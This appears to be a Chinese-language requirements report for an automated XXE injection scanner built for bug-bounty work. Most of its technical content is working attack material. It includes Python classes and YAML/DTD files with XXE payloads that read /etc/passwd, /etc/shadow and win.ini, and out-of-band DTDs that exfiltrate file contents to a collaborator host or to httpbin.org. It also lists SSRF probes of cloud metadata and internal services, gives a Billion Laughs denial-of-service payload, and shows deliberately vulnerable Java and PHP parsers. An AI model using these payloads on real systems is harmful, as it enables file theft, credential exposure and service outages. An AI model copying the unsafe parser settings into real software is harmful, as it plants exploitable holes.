

# 🛡️ XXE注入檢測模組需求報告 (XML External Entity Injection)

## 📁 模組部署位置
```
services/integration/capability/xxe_injection/
├── __init__.py
├── __main__.py
├── xxe_detector.py                   # 主XXE檢測引擎
├── xml_parser_identifier.py         # XML解析器識別
├── blind_xxe_detector.py            # 盲XXE檢測器
├── oob_payload_server.py            # OOB載荷服務器
├── config/
│   ├── xxe_payloads.json
│   ├── parser_signatures.json
│   ├── blind_detection_rules.json
│   └── oob_server_config.json
├── payloads/
│   ├── standard_xxe.json
│   ├── blind_xxe.json
│   ├── parameter_entity.json
│   └── oob_detection.json
└── tests/
    ├── test_xxe_detector.py
    ├── test_blind_xxe.py
    └── test_integration.py
```

## 🔗 相關模組連結
- [命令注入檢測](./11_命令注入檢測模組需求報告.md) - 共享載荷響應分析
- [服務器端模板注入檢測](./12_服務器端模板注入檢測模組需求報告.md) - 共享載荷響應分析
- [目錄遍歷攻擊檢測](./13_目錄遍歷攻擊檢測模組需求報告.md) - 共享文件讀取檢測
- [本地遠程文件包含檢測](./14_本地遠程文件包含檢測模組需求報告.md) - 共享外部實體載入檢測
- [NoSQL注入檢測](./16_NoSQL注入檢測模組需求報告.md) - 共享盲注檢測技術

**報告編號**: FEAT-015  
**日期**: 2025年11月7日  
**狀態**: 💎 高價值攻擊 - 中等複雜度  
**優先級**: P1 (High Priority)  
**預期收益**: $60K-110K/年  
**OWASP 編號**: WSTG-07-17

---

## 📊 市場需求分析

### 💰 賞金價值評估
- **典型賞金範圍**: $500-$5,000 (高價值)
- **發現頻率**: 中等 (25-35%的XML處理應用存在風險)
- **檢測成功率**: 75-85% (需要盲注技術)
- **年收益預測**: $60K-110K

### 🎯 目標技術棧分布
- **Java應用**: 45%市場佔有率 (Spring, Struts框架)
- **.NET應用**: 25%市場佔有率 (WCF, Web API)
- **PHP應用**: 20%市場佔有率 (SimpleXML, DOMDocument)
- **Python應用**: 8%市場佔有率 (xml.etree, lxml)
- **其他語言**: 2%市場佔有率 (Node.js, Ruby)

### 🚨 高風險場景
- SOAP Web服務 - 90%風險
- XML-RPC接口 - 85%風險
- REST API (XML格式) - 75%風險
- 文件上傳處理 - 70%風險
- 配置文件解析 - 65%風險

---

## 🔍 技術需求規格

### **模組標識**
```
服務路徑: services/integration/capability/xxe_injection/
模組名稱: XML External Entity Injection Detection Engine
責任團隊: Advanced Security Research Team
實現語言: Python (主引擎) + Go (性能組件)
複雜度級別: Medium-High
```

### **核心檢測能力**

#### 1️⃣ **XXE檢測引擎**
```python
class XXEDetector:
    """XXE注入檢測器"""
    
    def __init__(self, collaborator_server):
        self.collaborator_server = collaborator_server
        self.xxe_payloads = self._generate_xxe_payloads()
        self.blind_techniques = self._load_blind_techniques()
        self.entity_parsers = self._load_parser_configs()
        
    def _generate_xxe_payloads(self):
        """生成XXE測試載荷"""
        base_url = f"http://{self.collaborator_server}"
        
        return {
            'basic_xxe': [
                # 基本外部實體
                '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>''',

                '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">
]>
<root>&xxe;</root>''',

                # 參數實體
                '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
%xxe;
]>
<root>test</root>''',
            ],
            
            'remote_xxe': [
                # 遠程DTD
                f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root SYSTEM "{base_url}/evil.dtd">
<root>test</root>''',

                # 遠程實體
                f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "{base_url}/test.txt">
]>
<root>&xxe;</root>''',

                # 參數實體遠程
                f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "{base_url}/evil.dtd">
%remote;
]>
<root>test</root>''',
            ],
            
            'blind_xxe': [
                # 盲XXE - 錯誤基礎
                '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%exfil;
]>
<root>test</root>''',

                # 盲XXE - 外部參數實體
                f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "{base_url}/blind.dtd">
%remote;
]>
<root>test</root>''',
            ],
            
            'protocol_variations': [
                # HTTP協議
                f'''<!ENTITY xxe SYSTEM "{base_url}/test">''',
                
                # FTP協議
                f'''<!ENTITY xxe SYSTEM "ftp://anonymous:pass@{self.collaborator_server}/test">''',
                
                # Gopher協議
                f'''<!ENTITY xxe SYSTEM "gopher://{self.collaborator_server}:70/_test">''',
                
                # HTTPS協議
                f'''<!ENTITY xxe SYSTEM "https://{self.collaborator_server}/test">''',
                
                # Jar協議 (Java)
                f'''<!ENTITY xxe SYSTEM "jar:{base_url}/test.jar!/test.txt">''',
                
                # Netdoc協議 (Java)
                f'''<!ENTITY xxe SYSTEM "netdoc:///etc/passwd">''',
            ]
        }
    
    def detect_xxe(self, target_url, xml_content=None):
        """檢測XXE注入漏洞"""
        detections = []
        
        # 如果沒有提供XML內容，嘗試自動發現
        if not xml_content:
            xml_content = self._discover_xml_format(target_url)
            
        if not xml_content:
            return detections
            
        # 測試不同類型的XXE載荷
        for category, payloads in self.xxe_payloads.items():
            for payload in payloads:
                result = self._test_xxe_payload(target_url, xml_content, payload, category)
                if result:
                    detections.append(result)
                    
        return detections
    
    def _test_xxe_payload(self, url, original_xml, xxe_payload, category):
        """測試XXE載荷"""
        
        # 構造惡意XML
        malicious_xml = self._inject_xxe_payload(original_xml, xxe_payload)
        
        # 生成唯一標識符
        test_id = f"xxe-{uuid.uuid4().hex[:8]}"
        malicious_xml = malicious_xml.replace('test', test_id)
        
        # 發送請求
        response = self._send_xml_request(url, malicious_xml)
        
        if not response:
            return None
            
        # 分析響應
        return self._analyze_xxe_response(response, xxe_payload, category, test_id)
    
    def _analyze_xxe_response(self, response, payload, category, test_id):
        """分析XXE響應"""
        
        content = response.text
        
        # 檢查直接文件內容洩露
        file_indicators = [
            'root:x:0:0:',           # /etc/passwd
            '[fonts]',               # win.ini
            'daemon:x:',             # /etc/passwd
            'bin:x:',                # /etc/passwd
            'for 16-bit app support' # win.ini
        ]
        
        for indicator in file_indicators:
            if indicator in content:
                return {
                    'type': 'XML External Entity Injection',
                    'category': 'file_disclosure',
                    'payload': payload,
                    'confidence': 0.95,
                    'evidence': f'File content detected: {indicator}',
                    'impact': 'High - File system access'
                }
        
        # 檢查協作服務器交互 (遠程XXE)
        if category in ['remote_xxe', 'blind_xxe']:
            time.sleep(3)  # 等待請求到達
            if self._check_collaborator_interaction(test_id):
                return {
                    'type': 'XML External Entity Injection',
                    'category': 'remote_interaction',
                    'payload': payload,
                    'confidence': 0.9,
                    'evidence': f'Remote server interaction: {test_id}',
                    'impact': 'High - Network access and potential SSRF'
                }
        
        # 檢查XML解析錯誤
        xml_errors = [
            'xml parsing error',
            'malformed xml',
            'external entity',
            'dtd forbidden',
            'entity reference',
            'xml parse error',
            'saxparseexception',
            'xmlsyntaxerror',
            'domdocument'
        ]
        
        content_lower = content.lower()
        for error in xml_errors:
            if error in content_lower:
                return {
                    'type': 'XML External Entity Injection',
                    'category': 'error_disclosure',
                    'payload': payload,
                    'confidence': 0.7,
                    'evidence': f'XML parsing error detected: {error}',
                    'impact': 'Medium - Error-based information disclosure'
                }
        
        return None
```

#### 2️⃣ **盲XXE檢測技術**
```python
class BlindXXEDetector:
    """盲XXE檢測器"""
    
    def __init__(self, collaborator_server):
        self.collaborator_server = collaborator_server
        self.blind_dtds = self._generate_blind_dtds()
        
    def _generate_blind_dtds(self):
        """生成盲XXE DTD文件"""
        base_url = f"http://{self.collaborator_server}"
        
        return {
            'file_exfil_dtd': f'''
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM '{base_url}/exfil?data=%file;'>">
%eval;
%exfil;
''',
            
            'error_based_dtd': f'''
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
''',
            
            'oob_dtd': f'''
<!ENTITY % remote SYSTEM "{base_url}/secondary.dtd">
%remote;
''',
            
            'time_based_dtd': f'''
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; delay SYSTEM 'http://httpbin.org/delay/10?data=%file;'>">
%eval;
%delay;
'''
        }
    
    def detect_blind_xxe(self, target_url, xml_content):
        """檢測盲XXE漏洞"""
        detections = []
        
        for dtd_name, dtd_content in self.blind_dtds.items():
            # 在協作服務器上部署DTD
            dtd_url = self._deploy_dtd(dtd_name, dtd_content)
            
            # 構造引用DTD的XML
            blind_xml = f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "{dtd_url}">
%remote;
]>
<root>test</root>'''
            
            # 測試盲XXE
            result = self._test_blind_xxe(target_url, blind_xml, dtd_name)
            if result:
                detections.append(result)
                
        return detections
    
    def _test_blind_xxe(self, url, xml_payload, dtd_name):
        """測試盲XXE載荷"""
        
        test_id = f"blind-{uuid.uuid4().hex[:8]}"
        xml_with_id = xml_payload.replace('test', test_id)
        
        # 發送請求
        start_time = time.time()
        response = self._send_xml_request(url, xml_with_id)
        response_time = time.time() - start_time
        
        # 檢查協作服務器日誌
        time.sleep(5)
        interactions = self._get_collaborator_interactions(test_id)
        
        if interactions:
            # 分析交互類型
            interaction_type = self._analyze_interaction_type(interactions)
            
            return {
                'type': 'Blind XML External Entity Injection',
                'technique': dtd_name,
                'confidence': 0.9,
                'evidence': f'Blind XXE confirmed via {interaction_type}',
                'interactions': len(interactions),
                'impact': 'High - Blind file access and network interaction'
            }
        
        # 檢查時間延遲 (time-based)
        if dtd_name == 'time_based_dtd' and response_time > 8:
            return {
                'type': 'Time-based Blind XXE',
                'technique': 'time_delay',
                'confidence': 0.8,
                'evidence': f'Response delay detected: {response_time:.2f}s',
                'impact': 'Medium - Time-based confirmation'
            }
        
        return None
```

#### 3️⃣ **高級XXE技術**
```python
class AdvancedXXEDetector:
    """高級XXE檢測技術"""
    
    def detect_xxe_ssrf(self, target_url, xml_content):
        """檢測XXE to SSRF攻擊"""
        
        # 內網掃描目標
        internal_targets = [
            'http://169.254.169.254/',          # AWS metadata
            'http://metadata.google.internal/', # GCP metadata
            'http://127.0.0.1:22/',            # SSH
            'http://127.0.0.1:3306/',          # MySQL
            'http://127.0.0.1:6379/',          # Redis
            'http://localhost:8080/',          # 常見web服務
            'http://10.0.0.1/',                # 內網網關
            'http://192.168.1.1/',             # 路由器
        ]
        
        detections = []
        
        for target in internal_targets:
            xxe_payload = f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "{target}">
]>
<root>&xxe;</root>'''
            
            response = self._send_xml_request(target_url, xxe_payload)
            
            if response and self._analyze_ssrf_response(response, target):
                detections.append({
                    'type': 'XXE to SSRF',
                    'target': target,
                    'confidence': 0.85,
                    'evidence': 'Internal service response detected',
                    'impact': 'Critical - Internal network access'
                })
                
        return detections
    
    def detect_xxe_dos(self, target_url, xml_content):
        """檢測XXE拒絕服務攻擊"""
        
        # Billion Laughs Attack
        billion_laughs = '''<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>'''
        
        # 測試DOS攻擊
        start_time = time.time()
        try:
            response = self._send_xml_request(target_url, billion_laughs, timeout=30)
            response_time = time.time() - start_time
            
            # 檢查響應時間異常
            if response_time > 25 or not response:
                return {
                    'type': 'XXE Denial of Service',
                    'technique': 'billion_laughs',
                    'confidence': 0.9,
                    'evidence': f'Server timeout/hang detected: {response_time:.2f}s',
                    'impact': 'High - Service availability impact'
                }
                
        except requests.exceptions.Timeout:
            return {
                'type': 'XXE Denial of Service',
                'technique': 'billion_laughs',
                'confidence': 0.95,
                'evidence': 'Request timeout - server likely hung',
                'impact': 'High - Service availability impact'
            }
            
        return None
    
    def detect_jar_protocol_xxe(self, target_url, xml_content):
        """檢測Java jar:// 協議XXE"""
        
        if not self._is_java_application(target_url):
            return None
            
        # 構造jar協議載荷
        jar_payload = f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "jar:http://{self.collaborator_server}/test.jar!/test.txt">
]>
<root>&xxe;</root>'''
        
        test_id = f"jar-{uuid.uuid4().hex[:8]}"
        jar_payload = jar_payload.replace('test', test_id)
        
        response = self._send_xml_request(target_url, jar_payload)
        
        # 檢查協作服務器交互
        time.sleep(3)
        if self._check_collaborator_interaction(test_id):
            return {
                'type': 'Java JAR Protocol XXE',
                'confidence': 0.9,
                'evidence': f'JAR protocol interaction: {test_id}',
                'impact': 'High - Java-specific protocol abuse'
            }
            
        return None
```

---

## 🏗️ 架構設計

### **模組結構**
```
services/integration/capability/xxe_injection/
├── cmd/
│   └── main.go                    # Go服務入口
├── internal/
│   ├── detector/
│   │   ├── xxe_detector.py        # 主XXE檢測引擎
│   │   ├── blind_xxe_detector.py  # 盲XXE檢測器
│   │   ├── advanced_detector.py   # 高級XXE技術
│   │   ├── payload_generator.py   # XML載荷生成器
│   │   └── parser_analyzer.py     # XML解析器分析
│   ├── engine/
│   │   ├── scanner.py             # 主掃描引擎
│   │   ├── xml_builder.py         # XML構造器
│   │   └── reporter.py            # 報告生成器
│   ├── collaborator/
│   │   ├── dtd_server.py          # DTD服務器
│   │   ├── interaction_handler.py # 交互處理器
│   │   └── log_analyzer.py        # 日誌分析器
│   └── worker/
│       ├── amqp_consumer.go       # 消息消費者
│       └── task_processor.go      # 任務處理器
├── config/
│   ├── payloads/
│   │   ├── basic_xxe.yaml         # 基本XXE載荷
│   │   ├── blind_xxe.yaml         # 盲XXE載荷
│   │   ├── protocol_variations.yaml # 協議變體
│   │   └── platform_specific.yaml # 平台特定載荷
│   ├── dtds/
│   │   ├── blind_exfil.dtd        # 盲注數據滲透DTD
│   │   ├── error_based.dtd        # 錯誤基礎DTD
│   │   └── oob_interaction.dtd    # OOB交互DTD
│   ├── parsers/
│   │   ├── java_parsers.yaml      # Java解析器配置
│   │   ├── dotnet_parsers.yaml    # .NET解析器配置
│   │   └── php_parsers.yaml       # PHP解析器配置
│   └── rules.yaml                 # 檢測規則
└── tests/
    ├── unit/
    ├── integration/
    └── vulnerable_apps/           # 測試應用
```

### **檢測工作流**


---

## ⚙️ 配置文件規格

### **主配置文件**
```yaml
# config/rules.yaml
xxe_detection:
  enabled: true
  timeout: 45
  max_payloads_per_endpoint: 15
  
  basic_xxe:
    enabled: true
    file_read_test: true
    remote_dtd_test: true
    parameter_entity_test: true
    
  blind_xxe:
    enabled: true
    collaborator_server: "xxe.aiva-security.com"
    interaction_timeout: 30
    oob_techniques: true
    error_based_techniques: true
    
  advanced_techniques:
    ssrf_detection: true
    dos_detection: false  # 謹慎使用
    jar_protocol_test: true
    platform_specific: true
    
  confidence_thresholds:
    high: 0.9
    medium: 0.7
    low: 0.5
    
  rate_limiting:
    requests_per_second: 3
    burst_limit: 5
    delay_between_requests: 500ms
```

### **XXE載荷配置**
```yaml
# config/payloads/basic_xxe.yaml
xxe_payloads:
  file_disclosure:
    unix_files:
      - path: "/etc/passwd"
        payload: |
          <?xml version="1.0" encoding="UTF-8"?>
          <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
          <root>&xxe;</root>
        signatures:
          - "root:x:0:0:"
          - "daemon:x:"
        severity: "high"
        
      - path: "/etc/shadow"
        payload: |
          <?xml version="1.0" encoding="UTF-8"?>
          <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/shadow">]>
          <root>&xxe;</root>
        signatures:
          - "root:$"
          - ":$1$"
        severity: "critical"
        
    windows_files:
      - path: "C:\\windows\\win.ini"
        payload: |
          <?xml version="1.0" encoding="UTF-8"?>
          <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
          <root>&xxe;</root>
        signatures:
          - "[fonts]"
          - "[extensions]"
        severity: "high"
        
  parameter_entities:
    - name: "basic_param_entity"
      payload: |
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE root [
        <!ENTITY % xxe SYSTEM "file:///etc/passwd">
        %xxe;
        ]>
        <root>test</root>
      severity: "high"
      
  remote_dtd:
    - name: "external_dtd"
      payload: |
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE root SYSTEM "{{COLLABORATOR_URL}}/evil.dtd">
        <root>test</root>
      severity: "high"
```

### **盲XXE DTD文件**
```xml
<!-- config/dtds/blind_exfil.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://{{COLLABORATOR_DOMAIN}}/exfil?data=%file;'>">
%eval;
%exfil;
```

```xml
<!-- config/dtds/error_based.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

---

## 🧪 測試策略

### **漏洞應用搭建**
```java
// Java SOAP服務示例
@WebService
public class VulnerableXMLService {
    
    @WebMethod
    public String processXML(String xmlData) {
        try {
            DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
            // 危險配置 - 允許外部實體
            factory.setExpandEntityReferences(true);
            factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", false);
            
            DocumentBuilder builder = factory.newDocumentBuilder();
            Document doc = builder.parse(new InputSource(new StringReader(xmlData)));
            
            return doc.getDocumentElement().getTextContent();
        } catch (Exception e) {
            return "Error: " + e.getMessage();
        }
    }
}
```

```php
<?php
// PHP XXE漏洞示例
if ($_POST['xml']) {
    $xml = $_POST['xml'];
    
    // 危險配置 - 允許外部實體載入
    libxml_disable_entity_loader(false);
    
    $dom = new DOMDocument();
    $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    
    echo $dom->textContent;
}
?>
```

### **自動化測試**
```python
class TestXXEDetection:
    def setup_method(self):
        self.detector = XXEDetector("xxe-test.aiva.local")
        self.test_server = "http://localhost:8080"
        
    def test_basic_file_disclosure(self):
        """測試基本文件洩露"""
        target = f"{self.test_server}/xml-processor"
        
        results = self.detector.detect_xxe(target)
        
        assert len(results) > 0
        assert any(r['type'] == 'XML External Entity Injection' for r in results)
        assert any('file_disclosure' in r.get('category', '') for r in results)
        
    def test_blind_xxe_detection(self):
        """測試盲XXE檢測"""
        target = f"{self.test_server}/blind-xml"
        
        blind_detector = BlindXXEDetector("xxe-test.aiva.local")
        results = blind_detector.detect_blind_xxe(target, None)
        
        assert len(results) > 0
        assert any(r['type'] == 'Blind XML External Entity Injection' for r in results)
        
    def test_xxe_to_ssrf(self):
        """測試XXE to SSRF"""
        target = f"{self.test_server}/xml-processor"
        
        advanced_detector = AdvancedXXEDetector()
        results = advanced_detector.detect_xxe_ssrf(target, None)
        
        # 檢查是否檢測到內網訪問
        ssrf_detected = any(
            '169.254.169.254' in r.get('target', '') or
            '127.0.0.1' in r.get('target', '')
            for r in results
        )
        assert ssrf_detected or len(results) == 0  # 可能沒有內網服務
        
    def test_platform_specific_xxe(self):
        """測試平台特定XXE"""
        java_target = f"{self.test_server}/java-xml"
        
        advanced_detector = AdvancedXXEDetector()
        jar_result = advanced_detector.detect_jar_protocol_xxe(java_target, None)
        
        # Java應用應該支持jar://協議
        if jar_result:
            assert jar_result['type'] == 'Java JAR Protocol XXE'
```

---

## 📈 性能要求

### **掃描性能**
- **單端點掃描時間**: < 120秒 (包含盲注檢測)
- **並發請求數**: 5個並發連接
- **協作服務器響應時間**: < 5秒
- **內存使用**: < 512MB/實例

### **檢測準確率**
- **基本XXE檢測成功率**: > 85%
- **盲XXE檢測成功率**: > 75%
- **SSRF檢測成功率**: > 70%
- **誤報率**: < 8%

---

## 🚀 實施計劃

### **Phase 1: 基礎XXE檢測 (3週)**
- [ ] XML格式自動發現
- [ ] 基本外部實體檢測
- [ ] 文件讀取載荷庫
- [ ] 響應分析引擎

### **Phase 2: 盲XXE檢測 (3週)**
- [ ] 協作服務器搭建
- [ ] DTD服務器實現
- [ ] 盲注檢測引擎
- [ ] 交互日誌分析

### **Phase 3: 高級XXE技術 (2週)**
- [ ] XXE to SSRF檢測
- [ ] 平台特定協議
- [ ] DoS攻擊檢測
- [ ] 錯誤基礎盲注

### **Phase 4: 集成和優化 (1週)**
- [ ] 結果整合去重
- [ ] 性能調優
- [ ] SARIF報告格式
- [ ] 全面測試

**總開發周期**: 9週  
**預計上線時間**: 2026年1月9日

---

## 💼 商業價值

### **收益分析**
- **年度賞金收入**: $60K-110K
- **開發投資**: $90K (9週開發)
- **ROI**: 67%-122%
- **回收周期**: 10-15個月

### **技術價值**
- **檢測覆蓋率**: 提升至50%
- **高價值漏洞**: XXE通常獲得較高賞金
- **技術深度**: 盲注技術展現高級能力

---

## 📋 驗收標準

### **功能驗收**
- ✅ 支持基本和盲XXE檢測
- ✅ 多平台XML解析器支持
- ✅ 協作服務器穩定運行
- ✅ SSRF鏈式攻擊檢測
- ✅ 完整DTD載荷庫

### **性能驗收**
- ✅ 掃描時間<120秒/端點
- ✅ 基本XXE成功率>85%
- ✅ 盲XXE成功率>75%
- ✅ 誤報率<8%

---

## 🎯 結論

XXE檢測模組是一個**高價值、中等複雜度**的重要項目。XXE漏洞通常獲得較高賞金，且技術門檻使得競爭相對較少。盲XXE檢測技術將成為重要的技術差異化優勢。

**建議作為第四優先級項目**，在基礎檢測模組完成後實施，為高價值攻擊檢測奠定基礎。